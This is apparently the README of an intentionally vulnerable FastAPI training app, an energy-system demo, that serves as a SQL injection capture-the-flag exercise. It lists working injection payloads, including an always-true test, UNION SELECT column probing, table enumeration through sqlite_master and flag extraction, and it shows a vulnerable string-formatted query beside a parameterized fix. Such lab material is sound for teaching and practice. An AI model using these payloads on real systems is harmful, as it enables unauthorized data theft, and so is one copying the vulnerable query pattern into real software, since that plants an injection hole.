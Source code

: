 # 🔓 Estonia Energy System Management - SQL Injection Demo

## 🚀 Quick Start

### 1. Start the system
```bash
./start_system.sh
```

### 2. Access the system
- Open: http://localhost:9000
- System is in English
- All functionality is available

### 3. Exploit SQL injection
```bash
python demo_sqli.py
```

## 🎯 Goal

**Get the flag:** `EST_ENERGY_SYSTEM_2024`

## 📚 Learning Resources

### SQL Injection Guide
- **URL:** http://localhost:9000/sql-guide
- **Features:** Complete guide with payloads, database schema, and tips

### API Endpoints
- **Database Schema:** http://localhost:9000/api/schema
- **Available Tables:** http://localhost:9000/api/tables
- **System Statistics:** http://localhost:9000/api/statistics

## 🔓 SQL Injection Exploitation

### Method 1: Automatic exploitation
```bash
python demo_sqli.py
```

### Method 2: Manual exploitation
1. Go to http://localhost:9000/search
2. Try basic SQL injection: `' OR '1'='1`
3. Test column count: `' UNION SELECT 1,2,3,4,5,6,7 --`
4. Get table names: `' UNION SELECT 1,name,1,1,1,1,1 FROM sqlite_master WHERE type='table' --`
5. Extract the flag: `' UNION SELECT 1,flag_value,1,1,1,1,1 FROM system_flags WHERE flag_name = 'TASK_COMPLETED' --`
6. Look for the flag in the results

### Method 3: Alternative payloads
```sql
-- Basic flag extraction (with correct column count)
' UNION SELECT 1,flag_value,1,1,1,1,1 FROM system_flags WHERE flag_name = 'TASK_COMPLETED' --

-- Get all flags
' UNION SELECT 1,flag_name,flag_value,1,1,1,1 FROM system_flags --

-- Basic SQL injection test
' OR '1'='1
```

## 📁 Project Structure

```
├── start_system.sh          # Start the system
├── demo_sqli.py            # SQL injection demo
├── app/                     # Application code
│   ├── main.py             # FastAPI app
│   ├── routes/             # Route handlers
│   ├── database/           # Database manager
│   └── static/             # Static files
├── templates/              # HTML templates
├── config/                 # Configuration
└── requirements.txt        # Dependencies
```

## 🛡️ Security Notes

**This is a demonstration project with intentional vulnerabilities for educational purposes.**

### Vulnerable Code:
```python
# VULNERABLE (SQL injection)
sql_query = f"SELECT * FROM power_stations WHERE name LIKE '%{query}%'"
```

### Secure Code:
```python
# SECURE (parameterized query)
cursor.execute("SELECT * FROM power_stations WHERE name LIKE ?", (f"%{query}%",))
```

## ⚖️ Legal Notice

**IMPORTANT:** This project is for educational purposes only. Using these techniques on real systems without permission is illegal.

**Use knowledge only for:**
- Learning and education
- Testing your own systems
- Authorized penetration testing
- Security research

---
**Remember: Security is everyone's responsibility!**